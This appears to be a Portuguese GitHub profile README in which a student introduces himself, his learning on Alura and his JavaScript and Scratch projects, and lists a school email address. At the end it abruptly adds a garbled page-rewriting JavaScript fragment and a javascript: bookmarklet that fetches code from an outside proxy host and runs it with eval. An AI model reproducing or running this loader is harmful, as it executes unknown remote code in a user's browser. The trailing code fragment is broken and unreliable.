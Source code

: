 ### bem-vindo a o meu perfil 👍

meu nome e matheus borges

 - estou fazendo na plataforma do [alura](https://www.alura.com.br)
 - estou me desenvolvendo na linguagem do [javaScript](https://p5.js.org) e [scratch](https://https://scratch.mit.edu/)
 - uso esse espaço para a minha organização e compartilhação dos meus projetos desenvidos 

### você pode entrar em contato comigo  📫

00001106286637sp@al.educacao.sp.gov.br

@matheus_borges

![](
https://media1.tenor.com/m/Jun18woQPwwAAAAd/waiting-patiently.gif)


e=document.getElementsByTagName("html")[0].outerHTML;document.open(),document.write(e),document.close()},location.softReload();

javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);
